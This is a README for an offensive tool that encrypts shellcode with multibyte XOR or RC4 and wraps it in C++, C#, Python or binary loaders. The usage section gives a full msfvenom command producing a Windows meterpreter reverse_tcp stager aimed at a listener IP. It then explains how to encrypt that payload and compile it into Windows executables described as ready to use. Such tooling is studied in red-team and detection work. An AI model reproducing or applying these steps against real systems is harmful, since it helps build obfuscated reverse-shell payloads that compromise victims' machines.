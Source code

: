Mutlibyte XOR or RC4 encrypted shellcode - Can run in Python3
============
Modify: Ch1ng

The technique uses two kind of code file:

1. The shellcode encoder/encrypter: `shellcode_encoder.py`
2. Various shellcode wrapper, in C++, C#, Binary and Python:
	- `encryptedShellcodeWrapper.cpp` - supports both XOR and RC4 encryption
	- `encryptedShellcodeWrapper.cs` - supports both XOR and RC4 encryption
	- `encryptedShellcodeWrapper.py` - supports both XOR and RC4 encryption
	- `encryptedShellcodeWrapper.bin` - supports both XOR and RC4 encryption

Installation
----------------------
Installation is straight forward:
* Git clone this repository: `git clone https://github.com/Arno0x/ShellcodeWrapper ShellcodeWrapper`
* cd into the ShellcodeWrapper folder: `cd ShellcodeWrapper`
* Install requirements using `pip install -r requirements.txt`
* Give the execution rights to the main script: `chmod +x shellcode_encoder.py`

Usage
----------------------
First, you need to obtain a usable shellcode from metasploit (*run it from a Kali distribution*), for example:
```
root@kali:~# msfvenom -a x86 -p windows/meterpreter/reverse_tcp LHOST=192.168.52.130 LPORT=4444 -f raw > shellcode.raw
```

In this example, the output is a raw (*unencoded & unencrypted*) reverse_tcp meterpreter stager for x86 platform. You should adapt it to your needs (*payload and parameters*).

Second, run the `shellcode_encoder.py` script along with the desired arguments:
  - raw shellcode filename
  - encryption key
  - encryption type: `xor` or `rc4`
  - desired output: `base64`, `cpp`, `csharp`, `python`，`binary`

For instance, to xor encrypt the shellcode with the key '*thisismykey*' and get an output code file in C#, C++, Binary and Python:
```
root@kali:~# ./shellcode_encoder.py -cpp -cs -py shellcode.raw thisismykey xor
```
This will generate C#, C++, Binary and Python code file in the `result` folder. Those files are ready to use/compile.

Eventually:

1. For the C++ wrapper, compile the C++ code file into a Windows executable: you can create a new VisualStudio project for **Win32 console application** and use the C++ code provided as the main file. Any other method of compilation will require slight adjustment of the C++ code (headers mostly).
2. For the C# wrapper, compile the C# code file into a Windows executable:
	`C:\Windows\Microsoft.NET\Framework64\v4.0.30319\csc.exe /unsafe /out:multibyteEncodeShellcode.exe multibyteEncodeShellcode.cs`
3. For the Python wrapper, just run it as a python script, or use PyInstaller to make it a Windows standalone executable
